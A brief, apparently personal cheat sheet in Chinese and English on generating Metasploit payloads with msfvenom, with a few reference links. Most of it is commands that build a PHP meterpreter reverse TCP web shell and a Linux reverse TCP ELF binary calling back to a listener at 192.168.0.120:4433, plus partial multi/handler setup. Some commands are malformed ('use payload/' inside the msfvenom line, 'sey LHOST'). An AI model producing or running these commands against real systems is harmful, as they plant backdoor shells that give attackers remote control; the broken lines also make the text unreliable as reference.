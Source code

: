# msfvenom
 metasploit 更新后就移除了 msfencode 以及 msfpayload

 http://www.freebuf.com/sectool/69362.html
 http://blog.51cto.com/biock/1658668
 http://www.secist.com/archives/1070.html
 http://blog.csdn.net/lijia111111/article/details/64124693

# php rev
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.120 LPORT=4433 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# linux
msfvenom -p use payload/linux/x86/meterpreter/reverse_tcp  LHOST=192.168.0.120 LPORT=4433 -f elf >shell.elf

# 监听
use exploit/multi/handler
set payload 
sey LHOST
set LPORT

